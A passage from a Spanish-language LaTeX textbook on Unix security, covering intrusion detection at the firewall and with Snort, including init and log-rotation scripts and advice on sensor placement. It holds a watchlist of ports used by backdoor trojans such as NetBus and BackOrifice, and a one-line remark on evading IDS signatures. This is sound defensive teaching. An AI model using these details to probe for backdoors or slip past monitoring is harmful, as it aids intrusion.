detecci\'on de intrusos sin m\'as que insertar espacios en blanco o rotaciones 
de {\it bits} en ciertos patrones del ataque; aunque algunos IDSes son capaces
de identificar estas transformaciones en un patr\'on, otros muchos no lo hacen.
\section{Implementaci\'on real de un IDS}
\begin{figure}
\begin{center}
\setlength{\unitlength}{3947sp}%
%
\begingroup\makeatletter\ifx\SetFigFont\undefined%
\gdef\SetFigFont#1#2#3#4#5{%
  \reset@font\fontsize{#1}{#2pt}%
  \fontfamily{#3}\fontseries{#4}\fontshape{#5}%
  \selectfont}%
\fi\endgroup%
\begin{picture}(6174,3699)(589,-2923)
\thinlines
\put(1426, 14){\oval(1350,900)}
\put(5326,-1261){\oval(1500,900)}
\put(601,-2911){\framebox(6150,3675){}}
\put(2701,164){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\rmdefault}{\bfdefault}{\updefault}Router}}}
\put(3001,-61){\oval(900,450)[bl]}
\put(3001,-61){\oval(900,450)[br]}
\put(3001,-2011){\circle{150}}
\put(3676, 89){\circle{150}}
\put(6301,-1411){\circle{150}}
\put(4426,314){\circle{150}}
\put(3751,-211){\circle{336}}
\put(3226,-2236){\circle{336}}
\put(4126,464){\circle{336}}
\put(6451,-1711){\circle{336}}
\put(3001,239){\oval(900,600)}
\put(3001,-661){\line(-3,-2){900}}
\put(2101,-1261){\line( 5,-3){893.382}}
\put(3001,-1786){\line( 3, 2){900}}
\put(3901,-1186){\line(-5, 3){893.382}}
\put(3451,164){\line( 0,-1){225}}
\put(2551,164){\line( 0,-1){225}}
\put(4651,-61){\framebox(750,525){}}
\put(4726, 14){\framebox(600,375){}}
\put(4726,-136){\line( 1, 0){600}}
\put(4576,-361){\line( 1, 0){600}}
\put(5176,-361){\line( 2, 3){150}}
\put(4576,-361){\line( 2, 3){150}}
\put(4801,-211){\line( 1, 0){225}}
\put(4726,-286){\line( 1, 0){225}}
\put(5101,-211){\line( 1, 0){ 75}}
\put(5026,-286){\line( 1, 0){ 75}}
\put(2101, 89){\vector( 1, 0){450}}
\put(3901,-1186){\vector( 1, 0){675}}
\put(5551,164){\vector(-1, 0){150}}
\put(5551,164){\line( 0,-1){975}}
\put(3001,-286){\vector( 0,-1){375}}
\put(3451, 89){\line( 1, 0){150}}
\put(3001,-1786){\line( 0,-1){150}}
\put(6076,-1411){\line( 1, 0){150}}
\put(4651,314){\line(-1, 0){150}}
\put(4651, 14){\line(-1, 0){225}}
\put(4426, 14){\line( 0,-1){225}}
\put(4426,-211){\line( 1, 0){225}}
\put(2776,-1261){\makebox(0,0)[lb]{\smash{\SetFigFont{14}{16.8}{\rmdefault}{\bfdefault}{\updefault}FW}}}
\put(3676,-286){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\rmdefault}{\mddefault}{\updefault} 1}}}
\put(3151,-2311){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\rmdefault}{\mddefault}{\updefault} 2}}}
\put(6376,-1786){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\rmdefault}{\mddefault}{\updefault} 3}}}
\put(4051,389){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\rmdefault}{\mddefault}{\updefault} 4}}}
\put(1201,-61){\makebox(0,0)[lb]{\smash{\SetFigFont{14}{16.8}{\rmdefault}{\bfdefault}{\updefault}INet}}}
\put(5101,-1336){\makebox(0,0)[lb]{\smash{\SetFigFont{14}{16.8}{\rmdefault}{\bfdefault}{\updefault}LAN}}}
\end{picture}
\end{center}
\caption{Puntos cl\'asicos de defensa entre un atacante y un objetivo.}
\label{sensores-ids}
\end{figure}
Vamos a tratar ahora de definir unas pautas para crear un sistema distribuido
de detecci\'on de intrusos, capaz de generar respuestas autom\'aticas, alarmas, 
o simplemente {\it logs} a distintos niveles de nuestra arquitectura de red, 
formando lo que se suele denominar un modelo de seguridad de c\'{\i}rculos
conc\'entricos (\cite{kn:isv95}). Para ello, imaginemos un pirata externo a 
nuestra organizaci\'on que intenta atacar una determinada m\'aquina, y 
pensemos en el primer punto en el que podemos detectar dicho ataque y actuar 
sobre \'el: ah\'{\i} es donde deberemos implantar el primer sensor, ya que se
trata de la primera barrera que estamos interponiendo entre el atacante y su
objetivo; ese primer punto no es otro que nuestro {\it router} de salida a
Internet, el marcado como `1' en la figura \ref{sensores-ids} (pido perd\'on 
por mi estilo `art\'{\i}stico'). No podemos 
entrar aqu\'{\i} a tratar detalles sobre las capacidades 
de detecci\'on de intrusos de productos como los {\it routers} Cisco y su IOS, 
o de otros elementos f\'acilmente integrables con esta electr\'onica de red, 
como NetRanger (tambi\'en de Cisco), ya que se trata de sistemas que poco tienen
que ver con Unix, y que en muchos casos no controlamos nosotros directamente
sino una tercera organizaci\'on (por ejemplo, Telef\'onica), a pesar de que
tengan incluso una direcci\'on IP perteneciente a nuestra red. En las p\'aginas
{\it web} de los distintos fabricantes se puede encontrar informaci\'on muy
\'util sobre sus productos orientados a la detecci\'on y respuesta ante 
ataques.
\subsection{IDS en el cortafuegos}
Volviendo a la figura \ref{sensores-ids}, el segundo punto que separar\'a al 
atacante de 
su objetivo (es decir, nos proteger\'a de \'el) ser\'a nuestro cortafuegos 
corporativo. Este elemento, sobre el que probablemente ya tendremos pleno 
control, estar\'a formado por uno o varios sistemas Unix con un {\it software}
de filtrado de paquetes ejecut\'andose sobre ellos, y es aqu\'{\i} donde vamos
a implantar el primer esquema de detecci\'on de intrusos y respuesta 
autom\'atica ante ataques (esta respuesta ser\'a habitualmente el bloqueo de
la direcci\'on atacante en el propio {\it firewall}).\\
\\Para decidir qu\'e tipos de ataques debemos detectar y bloquear en nuestro
cortafuegos debemos pararnos a pensar con qu\'e informaci\'on trabaja 
habitualmente este sistema; cualquier {\it firewall} lo har\'a al menos con
los cinco elementos que definen una conexi\'on bajo la pila {\sc tcp/ip}: 
direcci\'on origen, direcci\'on destino, puerto origen, puerto destino y
protocolo. De estos cinco, quiz\'as los dos menos importantes (de cara a 
detectar ataques) son quiz\'as el protocolo utilizado y el puerto origen de la
conexi\'on; por tanto, son los otros tres elementos los que nos ayudar\'an en
la constituci\'on de nuestro IDS y los que nos facilitar\'an el poder lanzar
una respuesta autom\'atica contra el atacante.\\
\\Conociendo las direcciones origen y destino y el puerto destino de una 
conexi\'on ya podemos detectar cierto tipo de ataques; quiz\'as el ejemplo
m\'as habitual son los escaneos de puertos, tanto horizontales como verticales,
que se lanzan contra nuestros sistemas. La t\'ecnica de detecci\'on de estos 
ataques se define perfectamente en \cite{kn:nor99}: est\'a basada por el 
momento en comprobar X eventos de inter\'es dentro de una ventana de tiempo Y.
As\'{\i}, podemos analizar en nuestro cortafuegos cu\'ando una misma 
direcci\'on origen accede a un determinado puerto de varios destinos en menos de
un cierto tiempo umbral (escaneo horizontal) o cuando accede a diferentes 
puertos bien conocidos de un mismo sistema tambi\'en en menos de ese tiempo 
umbral (escaneo vertical). >Por qu\'e el hecho de fijarnos s\'olo en puertos
bien conocidos en este \'ultimo caso? Muy sencillo: muchas aplicaciones abren
muchos puertos destino, generalmente altos (por encima del 1024), en una 
\'unica sesi\'on de funcionamiento, por lo que esa sesi\'on ser\'{\i}a 
identificada por el cortafuegos como un escaneo vertical cuando realmente no lo
es (y si adem\'as en nuestro esquema de respuesta autom\'atica decidimo bloquear
la IP `atacante', causar\'{\i}amos una grave negaci\'on de servicio contra
usuarios leg\'{\i}timos de nuestros sistemas).\\
\\Una t\'ecnica alternativa que con frecuencia suele ser utilizada con bastante
efectividad para detectar escaneos verticales consiste en vigilar del
acceso a determinados puertos de los sistemas protegidos por el {\it firewall}, 
acceso 
que con toda probabilidad representar\'a un intento de violaci\'on de nuestras 
pol\'{\i}ticas de seguridad. No nos enga\~nemos: si alguien trata de acceder 
desde fuera del segmento protegido a puertos como {\tt echo} (7/{\sc tcp},{\sc 
udp}), {\tt systat} (11/{\sc tcp}), {\tt netstat} (15/{\sc tcp}), {\tt tcpmux}
(1/{\tt tcp}) o el desfasado {\tt uucp} (540/{\sc tcp}), lo m\'as probable es 
que se trate de una persona que no lleva muy buena intenci\'on con respecto a 
nuestras m\'aquinas. Seguramente estar\'a lanzando un escaneo vertical contra
nosotros, aunque a veces tambi\'en se puede tratar de un simple curioso que 
trata de comprobar
nuestro grado de seguridad para lanzar un ataque posterior: evidentemente, si
alguien tiene abierto un puerto de los citados anteriormente, denota una
escasa preocupacion por su seguridad, por lo que casi con toda certeza se puede
intuir que tendr\'a agujeros importantes en alguna de sus m\'aquinas.\\
\\Otro tipo de ataques que tambi\'en son f\'acilmente detectables vigilando el
acceso a determinados puertos de nuestros sistemas protegidos son aquellos que
detectan la presencia -- o la comprobaci\'on de la presencia -- de diferentes 
troyanos como NetBus o BackOrifice: si en el {\it firewall} se detecta 
tr\'afico dirigido a puertos como 12345, 12346 o 20034 ({\sc tcp}) o como 
31337 ({\sc udp}), sin duda se trata de un atacante que est\'a tratando de
aprovechar estos troyanos; en muchos casos -- la mayor\'{\i}a -- se tratar\'a de
escaneos horizontales en busca de m\'aquinas contaminadas a lo largo de toda o
gran parte de nuestra clase C.
\begin{table}
\begin{center}
\begin{tabular}{|c|c|c||c|}
\hline
Servicio & Puerto & Protocolo & Ataque\\
\hline\hline
{\tt ttymux} & 1 & {\sc tcp} & Escaneo horizontal\\
\hline
{\tt echo} & 7 & {\sc tcp}/{\sc udp} & Escaneo horizontal\\
\hline
{\tt systat} & 7 & {\sc tcp} & Escaneo horizontal\\
\hline
{\tt daytime} & 13 & {\sc tcp}/{\sc udp} & Escaneo horizontal\\
\hline
{\tt netstat} & 15 & {\sc tcp} & Escaneo horizontal\\
\hline
{\tt finger} & 79 & {\sc tcp} & Escaneo horizontal/vertical\\
\hline
{\tt who} & 513 & {\sc udp} & Escaneo horizontal\\
\hline
{\tt uucp} & 540 & {\sc tcp} & Escaneo horizontal/vertical\\
\hline
NetBus & 12345 & {\sc tcp} & Troyano\\
\hline
NetBus & 12346 & {\sc tcp} & Troyano\\
\hline
NetBus & 20034 & {\sc tcp} & Troyano\\
\hline
BackOrifice & 31337 & {\sc udp} & Troyano\\
\hline
Hack\'{}a\'{}Tack & 31789 & {\sc udp} & Troyano\\
\hline
Hack\'{}a\'{}Tack & 31790 & {\sc udp} & Troyano\\
\hline
\end{tabular}
\end{center}
\caption{Algunos puertos a monitorizar en un {\it firewall}}
\label{puertos}
\end{table}
En la tabla \ref{puertos} se muestran algunos de los puertos a los que conviene 
estar atentos a la hora de dise\~nar una pol\'{\i}tica de detecci\'on de 
intrusos en nuestro cortafuegos; por supuesto, existen muchos m\'as que pueden 
ser considerados `sospechosos', pero en cualquier caso siempre conviene ser muy 
precavido con su monitorizaci\'on ya que algunos de ellos pueden ser usados
por usuarios l\'{\i}citos a los que causar\'{\i}amos una grave negaci\'on de
servicio si, por ejemplo, les bloque\'aramos el acceso a nuestra red a causa de
un falso positivo.\\
\\Todos sabemos que el cortafuegos es algo vital para proteger a nuestros 
sistemas, pero lamentablemente es un elemento muy limitado a la hora de 
detectar ataques. Por ejemplo, imaginemos la siguiente situaci\'on: un atacante
decide comprobar si nuestro servidor {\it web} corporativo tiene alg\'un tipo 
de vulnerabilidad que le pueda ayudar en un ataque contra la m\'aquina; algo
muy com\'un hoy en d\'{\i}a, ya que quiz\'as uno de los mayores da\~nos que 
puede sufrir la imagen de una empresa -- especialmente si est\'a relacionada 
con las nuevas tecnolog\'{\i}as -- es una modificaci\'on de su p\'agina {\it 
web} principal. Es muy probable que ese pirata lanzara en primer lugar un 
escaneo de puertos vertical contra el servidor, para comprobar si aparte del
servicio {\sc http} se est\'a ofreciendo alg\'un otro; si todo es correcto, el
puerto de {\it web} ser\'a el \'unico abierto en el cortafuegos corporativo,
cortafuegos que adem\'as detectar\'a el ataque contra la m\'aquina y 
bloquear\'a, al menos temporalmente, cualquier acceso de la direcci\'on 
atacante. Un punto a nuestro favor, pero el pirata no tiene m\'as que colgar
el m\'odem y volver a llamar a su proveedor para conseguir otra IP, con lo cual
obtiene de nuevo acceso a nuestro servicio {\sc http} y adem\'as ya sabe
que el \'unico puerto abierto en la m\'aquina es ese.\\
\\Ahora ese atacante no necesita ning\'un tipo de escaneo de puertos adicional;
puede seguir varios caminos para atacarnos, pero sin duda el m\'as l\'ogico y
f\'acil es tratar de localizar vulnerabilidades en el servidor {\it web} de 
nuestra
organizaci\'on. Para ello puede lanzar un escaneador de vulnerabilidades en 
servidores {\it web}\footnote{Generalmente se les denomina {\it CGI Scanners}, 
aunque no s\'olo comprueban la presencia de CGIs vulnerables, sino que 
tambi\'en detectan errores de configuraci\'on, versiones de los demonios, etc.}
contra la m\'aquina, escaneador que no generar\'a ninguna alerta en el 
cortafuegos; al fin y al cabo, lo \'unico que hacen estos programas es lanzar
peticiones al puerto 80 de nuestro servidor {\it web}, algo que el {\it 
firewall} no contempla como sospechoso: para \'el, no hay diferencia entre un 
analizador de CGIs y peticiones normales a nuestras p\'aginas.\\
\\Parece por tanto evidente que nuestra primera barrera de detecci\'on de
intrusos es realmente \'util, pero tambi\'en insuficiente frente a determinados
ataques; entonces entra en juego el segundo nivel de nuestro sistema de 
detecci\'on de intrusos, el ubicado en el segmento de red -- en el dominio de
colisi\'on -- en el que se encuentra el {\it host} que estamos tratando de
proteger.
\subsection{IDS en la red: {\sc snort}}
\label{snort}
{\sc snort} (\cite{kn:roe99}) es un {\it sniffer} capaz de actuar como sistema 
de detecci\'on de intrusos en redes de tr\'afico moderado; su facilidad de 
configuraci\'on, su adaptabilidad, sus requerimientos m\'{\i}nimos (funciona 
en diferentes Unices, incluyendo un simple PC con Linux, Solaris o cualquier 
BSD gratuito), 
y sobre todo su precio (se trata de un {\it software} completamente gratuito
que podemos descargar desde su p\'agina oficial en INet, {\tt 
http://www.snort.org/}) lo convierten en una \'optima elecci\'on en multitud de 
entornos, frente a otros sistemas como NFR ({\it Network Flight Recorder}) o 
ISS RealSecure que, aunque quiz\'as sean m\'as potentes, son tambi\'en mucho
m\'as pesados e infinitamente m\'as caros.\\
\\Para instalar un sistema de detecci\'on de intrusos basado en {\sc snort} 
en primer lugar necesitamos evidentemente este programa, que podemos descargar
desde su p\'agina {\it web}. Adem\'as, para compilarlo correctamente es
necesario disponer de las librer\'{\i}as {\tt libpcap}, un interfaz para
tratamiento de paquetes de red desde espacio de usuario, y es recomendable
tambi\'en (aunque no obligatorio) instalar {\tt Libnet}, librer\'{\i}a para
la construcci\'on y el manejo de paquetes de red. Con este {\it software} 
correctamente instalado en nuestro sistema, la compilaci\'on de {\sc snort} es
trivial.\\
\\Si volvemos a la clasificaci\'on de IDSes que hemos presentado al principio
de este cap\'{\i}tulo, podemos clasificar a {\sc snort} como un sistema basado
en red (se monitoriza todo un dominio de colisi\'on) y que funciona mediante
detecci\'on de usos indebidos. Estos usos indebidos -- o cuanto menos {\it
sospechosos} -- se reflejan en una base de datos formada por patrones de 
ataques; dicha base de datos se puede descargar tambi\'en desde la propia 
p\'agina {\it web} de 
{\sc snort}, donde adem\'as se pueden generar bases de patrones `a medida' de
diferentes entornos (por ejemplo, ataques contra servidores {\it web}, intentos
de negaciones de servicio, {\it exploits}\ldots). El archivo que utilicemos en
nuestro entorno ser\'a la base para el correcto funcionamiento de nuestro 
sistema de detecci\'on de intrusos.\\
\\Una vez hemos compilado e instalado correctamente el programa llega el momento
de ponerlo en funcionamiento; y es aqu\'{\i} donde se produce -- al menos
inicialmente -- uno de los errores m\'as graves en la detecci\'on de intrusos.
Por l\'ogica, uno tiende a pensar que el sensor proporcionar\'a mejores 
resultados cuantos m\'as patrones de ataques contenga en su base de datos; 
nada m\'as lejos de la realidad. En primer lugar, es muy probable que no todos 
los ataques que {\sc snort} es capaz de detectar sean susceptibles de 
producirse en el segmento de red monitorizado; si situamos el sensor en una
zona desmilitarizada donde \'unicamente ofrecemos servicio de {\it web}, >qu\'e
inter\'es tiene tratar de detectar ataques contra DNS? Lo l\'ogico es que 
las pol\'{\i}ticas implementadas en nuestro cortafuegos ni siquiera dejen
pasar tr\'afico hacia puertos que no sean los de los servidores {\it web} pero,
incluso en caso de que el potencial ataque se produjera entre m\'aquinas del 
propio segmento, hemos de evaluar con mucho cuidado si realmente vale la pena
sobrecargar la base de datos con patrones que permitan detectar estos ataques.
Evidentemente, cuanta m\'as az\'ucar m\'as dulce, pero si el sensor ha de 
analizar todo el tr\'afico, quiz\'as mientras trata de decidir si un paquete 
entre dos m\'aquinas protegidas se adapta a un patr\'on estamos dejando pasar
tramas provenientes del exterior que realmente representan ataques: hemos de
tener presente que el {\it sniffer} no detendr\'a el tr\'afico que no sea
capaz de analizar para hacerlo m\'as tarde, sino que simplemente lo dejar\'a
pasar. As\'{\i}, debemos introducir en la base de patrones de ataques los 
justos para detectar actividades sospechosas contra nuestra red.\\
\\En segundo lugar, pero no menos importante, es necesario estudiar los 
patrones de tr\'afico que circulan por el segmento donde el sensor escucha 
para detectar falsos positivos y, o bien reconfigurar la base de datos, o bien
eliminar los patrones que generan esas falsas alarmas. Aunque suene algo crudo,
si un patr\'on nos genera un n\'umero considerable de falsos positivos, debemos
plantearnos su eliminaci\'on: simplemente no podremos decidir si se trata de
verdaderas o de falsas alarmas. Esto es especialmente cr\'{\i}tico si lanzamos
respuestas autom\'aticas contra las direcciones `atacantes' (por ejemplo,
detener todo su tr\'afico en nuestro {\it firewall}): volviendo al ejemplo de
la zona desmilitarizada con servidores {\it web}, podemos llegar al extremo de 
detener a simples visitantes de nuestras p\'aginas simplemente porque han
generado falsos positivos; aunque en un entorno de alta seguridad quiz\'as
vale la pena detener muchas acciones no da\~ninas con tal de bloquear tambi\'en
algunos ataques (aunque constituir\'{\i}a una negaci\'on de servicio en toda 
regla contra los usuarios que hacen uso leg\'{\i}timo de nuestros sistemas), en 
un entorno normal de producci\'on esto es impensable. Seguramente ser\'a m\'as
provechoso detectar y detener estos ataques por otros mecanismos ajenos al
sensor.\\
\\En resumen, hemos de adaptar a nuestro entorno de trabajo, de una forma muy 
fina, la base de datos de patrones de posibles ataques. Quiz\'as valga la
pena perder tiempo el tiempo que sea necesario en esta parte de la 
implantaci\'on, ya que eso nos ahorrar\'a despu\'es muchos an\'alisis de
falsas alarmas y, por qu\'e negarlo, alg\'un que otro susto; una vez tengamos
todo configurado, podemos utilizar el siguiente {\it script} para lanzar {\sc
snort} de forma autom\'atica al arrancar el sistema (Solaris):
\begin{quote}
\begin{verbatim}
anita:~# cat /etc/init.d/snort
#!/sbin/sh
# 
# Instalacion:
#       # cp <script> /etc/init.d/snort
#       # chmod 744 /etc/init.d/snort
#       # chown root:sys /etc/init.d/snort
#       # ln /etc/init.d/snort /etc/rc2.d/S99snort
#

# Directorio de log
DIRLOG=/var/log/snort
# Fichero de reglas
RULES=/usr/local/security/snort.conf
# Ejecutable
SNORT=/usr/local/security/snort
# Interfaz
IF=hme0

case "$1" in
'start')
        if [ ! -d "$DIRLOG" ]; then
                mkdir -p "$DIRLOG"
        fi
        if [ ! -r "$RULES" ]; then
                echo "No puedo leer el fichero de patrones..."
                exit -1
        fi
        if [ ! -x "$SNORT" ]; then
                echo "No encuentro el ejecutable..."
                exit -1
        fi
        $SNORT -l $DIRLOG -c $RULES -i $IF -N -D
        ;;
'stop')
        if [ ! -r "/var/run/snort_$IF.pid" ]; then
                echo "No puedo obtener el PID..."
                exit -1
        fi
        kill -TERM `cat /var/run/snort_$IF.pid`
        ;;
*)
        echo "Usage: $0 { start | stop }"
        exit 1
esac
exit 0
anita:~# 
\end{verbatim}
\end{quote}
Con el sensor y sus patrones correctamente configurados ya estamos listos
para poner en funcionamiento nuestro sistema de detecci\'on de intrusos.
Seguramente hasta ahora no hemos tenido muchos problemas con el IDS; no 
obstante, a partir de ahora las cosas se empiezan a complicar un poco, ya que
comienza la segunda parte, la del tratamiento de la informaci\'on que nuestro
sensor nos va a proporcionar. Y es que desde este momento el sistema de
detecci\'on va a empezar a funcionar y a generar {\it logs} con notificaciones
de posibles ataques, o cuanto menos de actividades sospechosas; es hora de
decidir cosas como d\'onde situar al sensor, qu\'e hacer ante la generaci\'on 
de un evento en el mismo, c\'omo procesar la informaci\'on recibida, o 
simplemente cu\'ando rotar los {\it logs} generados.\\
\\El \'ultimo de los problemas planteados realmente tiene f\'acil soluci\'on;
>cu\'ando rotar los {\it logs} que {\sc snort} genera? La respuesta es muy 
sencilla: depende. Depende de la cantidad de informes generados en nuestro
sensor, depende de la frecuencia con la que debamos realizar informes de los
ataque sufridos, depende de la implementaci\'on elegida para ejecutar 
respuestas autom\'aticas ante un ataque (si las ejecutamos), etc. En definitiva,
la rotaci\'on correcta de unos {\it logs} es algo que se debe estudiar y 
planificar para cada entorno concreto, no se puede dar un periodo estricto que
se aplique siempre porque ser\'{\i}a sin duda err\'oneo. No obstante, una idea
que nos puede ayudar en la toma de esta decisi\'on es la siguiente: rotaremos
los {\it logs} cuando los hayamos procesado y extra\'{\i}do de ellos la 
informaci\'on que nos pueda interesar para proteger nuestro entorno.\\
\\{\sc snort} genera {\it logs} en el directorio {\tt /var/log/snort/} si no
le indicamos lo contrario (podemos hacerlo con la opci\'on {\tt `-l'} del
programa). En ese directorio encontraremos un fichero denominado {\tt alert}
con las actividades que se vayan registrando, y, si no hubi\'eramos especificado
la opci\'on {\tt `-N'} al arrancar el programa, una serie de subdirectorios 
cuyos nombres son las direcciones IP de las m\'aquinas de las que se detecta
alguna actividad (es el denominado {\it `packet logging'}). Como nosotros lo 
que buscamos es b\'asicamente la generaci\'on de alarmas, independiente del
{\it packet logging}, no necesitamos generar estos directorios (aunque nada
nos impide hacerlo).\\
\\El siguiente {\it shellscript} planificado convenientemente con {\tt crontab}
(si lo ejecutamos m\'as de una vez durante el d\'{\i}a quiz\'as nos interese
afinar la variable {\tt \$FECHA}) puede ser utilizado para realizar la 
rotaci\'on del archivo de alarmas generado por {\sc snort}:
\begin{quote}
\begin{verbatim}
anita:~# cat /usr/local/security/rotalog
#!/bin/sh
#
# Directorio de log
DIRLOG=/var/log/snort
# Fecha (DD/MM/YY)
FECHA=`date +%d.%m.%Y`
# Interfaz
IF=hme0

if [ ! -d "$DIRLOG" ]; then
        mkdir -p "$DIRLOG"
fi
cd $DIRLOG
mv alert alert-$FECHA
touch alert
chmod 600 alert
kill -HUP `cat /var/run/snort_$IF.pid`
compress alert-$FECHA
anita:~# 
\end{verbatim}
\end{quote}
Independientemente de la rotaci\'on de {\it logs} que llevemos a cabo en
cada sensor, suele resultar interesante centralizar todos los {\it logs} 
generados en un s\'olo sistema (a veces se le denomina maestro o {\it master}),
aunque s\'olo sea para realizar estad\'{\i}sticas, seguimientos de m\'aquinas
atacantes y atacadas, o simplemente un {\it `top ten'} de piratas. Para ello
podemos establecer relaciones de confianza entre los sensores y ese maestro
para que puedan conectarse entre s\'{\i} sin necesidad de contrase\~nas y,
de forma autom\'atica, transferir los {\it logs} almacenados y rotados. Por
supuesto, a estas alturas dicha relaci\'on no la estableceremos mediante la 
definici\'on de m\'aquinas confiables en archivos {\tt .rhosts} o similares, ni
con las herramientas {\tt r-$\ast$}, sino mediante {\sc ssh} y las claves 
p\'ublicas y privadas de cada m\'aquina. Aparte de una mayor seguridad (no
autenticamos a una m\'aquina simplemente por su direcci\'on o nombre, algo
f\'acilmente falseable), siguiendo un mecanismo de este estilo conseguimos que
todas las comunicaciones entre sistemas se realicen de forma cifrada, algo que
aqu\'{\i} es muy importante: cualquier informaci\'on relativa a potenciales
ataques o respuestas autom\'aticas a los mismos se ha de considerar como 
confidencial, por lo que ser\'{\i}a un grave error echar todo nuestro trabajo
a perder simplemente porque alguien sea capaz de esnifar dicho tr\'afico.\\
\\Volviendo a nuestras cuestiones iniciales, tambi\'en deb\'{\i}amos decidir 
d\'onde situar l\'ogicamente al sensor; por ejemplo, una cuesti\'on t\'{\i}pica
es si debemos emplazarlo detr\'as o delante del {\it firewall} que protege a
nuestra red. En principio, si dejamos que el sensor analice el tr\'afico antes
de que sea filtrado en el cortafuegos, estaremos en disposici\'on de detectar
todos los ataques {\it reales} que se lanzan contra nuestra red, sin ning\'un
tipo de filtrado que pueda detener las actividades de un pirata; no obstante,
probablemente lo que m\'as nos interesar\'a no es detectar todos estos intentos
de ataque (aunque nunca est\'a de m\'as permanecer informado en este sentido),
sino detectar el tr\'afico sospechoso que atraviesa nuestro {\it firewall} y
que puede comprometer a nuestros servidores. Por tanto, es recomendable 
(\cite{kn:ids99}) emplazar el sensor de nuestro sistema de detecci\'on de 
intrusos en la zona protegida; de cualquier forma, los potenciales ataques que 
no lleguen al mismo quedar\'an registrados en los {\it logs} del cortafuegos, e
incluso ser\'an neutralizados en el mismo.\\
\\Como el sensor ha de analizar todo el tr\'afico dirigido a las m\'aquinas
protegidas, si nos encontramos en un entorno donde dichas m\'aquinas se conecten
mediante un concentrador ({\it hub}) o mediante otras arquitecturas en las que 
cualquiera de
ellas vea (o pueda ver) el tr\'afico de las dem\'as, no hay muchos problemas
de decisi\'on sobre d\'onde situar al sensor: lo haremos en cualquier parte del
segmento. Sin embargo, si nuestros sistemas se conectan con un {\it switch} la
cuesti\'on se complica un poco, ya que en las bocas de este elemento se ver\'a 
\'unicamente el tr\'afico dirigido a las m\'aquinas que est\'en conectadas a
cada una de ellas; en este caso, tenemos varias opciones. Una de ellas puede
ser modificar por completo -- con todo lo que esto implica -- nuestra 
arquitectura de red para integrar un concentrador por el que pasen los paquetes
ya filtrados antes de llegar a las m\'aquinas del {\it switch}, tal y como
se muestra en la figura \ref{switch}. No obstante, suelen existir alternativas
m\'as sencillas y c\'omodas, como la replicaci\'on de puertos que se puede 
configurar en la mayor\'{\i}a de {\it switches}; la idea es muy simple: todo
el tr\'afico dirigido a determinada boca del {\it switch} se monitoriza y se
duplica en otra boca. As\'{\i}, no tenemos m\'as que configurar este {\it
port mirroring} y replicar la boca por la que se dirige el tr\'afico hacia el
segmento de m\'aquinas a monitorizar, envi\'andolo tambi\'en a una segunda boca
en la que conectaremos nuestro sensor.\\
\begin{figure}
\vspace{0.5cm}
\setlength{\unitlength}{3947sp}%
%
\begingroup\makeatletter\ifx\SetFigFont\undefined%
\gdef\SetFigFont#1#2#3#4#5{%
  \reset@font\fontsize{#1}{#2pt}%
  \fontfamily{#3}\fontseries{#4}\fontshape{#5}%
  \selectfont}%
\fi\endgroup%
\begin{picture}(7619,4019)(729,-3308)
\thinlines
\put(3001,239){\line(-3,-2){900}}
\put(2101,-361){\line( 3,-2){900}}
\put(3001,-961){\line( 3, 2){900}}
\put(3901,-361){\line(-3, 2){900}}
\put(2476,-1411){\framebox(75,75){}}
\put(2701,-1411){\framebox(75,75){}}
\put(2926,-1411){\framebox(75,75){}}
\put(3151,-1411){\framebox(75,75){}}
\put(3376,-1411){\framebox(75,75){}}
\put(2701,-1561){\vector( 0,-1){300}}
\put(2926,-1561){\vector( 0,-1){300}}
\put(3151,-1561){\vector( 0,-1){300}}
\put(3376,-1561){\vector( 0,-1){300}}
\put(5851,239){\line(-3,-2){900}}
\put(4951,-361){\line( 3,-2){900}}
\put(5851,-961){\line( 3, 2){900}}
\put(6751,-361){\line(-3, 2){900}}
\put(5251,-1561){\framebox(1200,300){}}
\put(5251,-2536){\framebox(1200,300){}}
\put(5401,-2536){\vector( 0,-1){300}}
\put(5551,-2536){\vector( 0,-1){300}}
\put(5701,-2536){\vector( 0,-1){300}}
\put(5851,-2536){\vector( 0,-1){300}}
\put(6001,-2536){\vector( 0,-1){300}}
\put(6151,-2536){\vector( 0,-1){300}}
\put(6301,-2536){\vector( 0,-1){300}}
\put(5326,-1411){\framebox(75,75){}}
\put(5476,-1411){\framebox(75,75){}}
\put(5626,-1411){\framebox(75,75){}}
\put(5776,-1411){\framebox(75,75){}}
\put(5926,-1411){\framebox(75,75){}}
\put(6076,-1411){\framebox(75,75){}}
\put(6226,-1411){\framebox(75,75){}}
\put(5326,-2386){\framebox(75,75){}}
\put(5476,-2386){\framebox(75,75){}}
\put(5626,-2386){\framebox(75,75){}}
\put(5626,-2386){\framebox(75,75){}}
\put(5776,-2386){\framebox(75,75){}}
\put(5926,-2386){\framebox(75,75){}}
\put(6076,-2386){\framebox(75,75){}}
\put(6226,-2386){\framebox(75,75){}}
\put(5851,-1561){\vector( 0,-1){675}}
\put(6226,-1561){\line( 0,-1){300}}
\put(6226,-1861){\vector( 1, 0){750}}
\put(6976,-2161){\framebox(675,600){}}
\put(7051,-2086){\framebox(525,450){}}
\put(2476,-1561){\vector( 0,-1){300}}
\put(3526,-1561){\vector( 0,-1){300}}
\put(2401,-1561){\framebox(1200,300){}}
\put(3001,-961){\vector( 0,-1){300}}
\put(5851,-961){\vector( 0,-1){300}}
\put(3001,539){\vector( 0,-1){300}}
\put(5851,539){\vector( 0,-1){300}}
\thicklines
\put(4126,-211){\vector( 1, 0){600}}
\put(4126,-361){\vector( 1, 0){600}}
\put(4126,-511){\vector( 1, 0){600}}
\put(751,-3286){\framebox(7575,3975){}}
\put(7276,-2536){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\rmdefault}{\mddefault}{\updefault}SENSOR}}}
\put(4351,-2461){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\rmdefault}{\mddefault}{\updefault}SWITCH}}}
\put(4651,-1486){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\rmdefault}{\mddefault}{\updefault}HUB}}}
\put(1426,-1486){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\rmdefault}{\mddefault}{\updefault}SWITCH}}}
\put(5626,-436){\makebox(0,0)[lb]{\smash{\SetFigFont{14}{16.8}{\rmdefault}{\mddefault}{\updefault}FW}}}
